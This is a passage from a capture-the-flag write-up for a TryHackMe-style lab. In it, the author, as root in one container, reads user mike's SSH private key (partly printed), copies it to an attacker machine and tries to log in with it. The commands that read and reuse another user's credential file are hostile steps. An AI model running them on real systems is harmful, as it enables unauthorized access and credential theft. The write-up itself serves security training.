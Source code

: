 And I'm root in this container!

### Container host1 root to container host2 mike

In the `netstat` output, I saw **there is a SSH port opened, but not inside the container.**

```
root@host1:/usr/share/man/zh_TW# netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      140/systemd-resolve 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      212/sshd            
tcp6       0      0 :::22                   :::*                    LISTEN      212/sshd            
tcp6       0      0 :::80                   :::*                    LISTEN      262/apache2         
udp        0      0 127.0.0.53:53           0.0.0.0:*                           140/systemd-resolve 
udp        0      0 192.168.250.10:68       0.0.0.0:*                           138/systemd-network
```

Also, I found that user `mike` has a private SSH key!

```
root@host1:/usr/share/man/zh_TW# ls -lah /home/mike/.ssh
[...]
-rw------- 1 mike mike 1.7K Jul 15  2021 id_rsa
-rw-r--r-- 1 mike mike  392 Jul 15  2021 id_rsa.pub

root@host1:/usr/share/man/zh_TW# cat /home/mike/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAnWmOnLHQfBxrW0W0YuCiTuuGjCMUrISE4hdDMMuZruW6nj+z
YQCmjcL3T4j7v3/ddOBsTgxwi/+ZRZtRqJlvKEevPHJ8cR1DX7mmNyU3w/DRMnrW
djcIozYXVYdmj9v3e8xPbR6ybJX6fKpTuaDVdiwqQAecbvs5tBUkonAYUBuv1nhb
[...]
```

Maybe we can SSH into mike directly to the target machine?

**Let's copy and paste it to our attacker machine:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# nano mike_id_rsa
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# chmod 600 mike_id_rsa
```

I tried to use the private key to directly connect to SSH port to the target machine, but no dice.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# ssh -i mike_id_rsa mike@$RHOSTS                        
mike@10.10.253.177's password: 
                                                                             
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# ssh -i mike_id_rsa mike@$RHOSTS -p 8022
mike@10.10.253.177's password: 

```
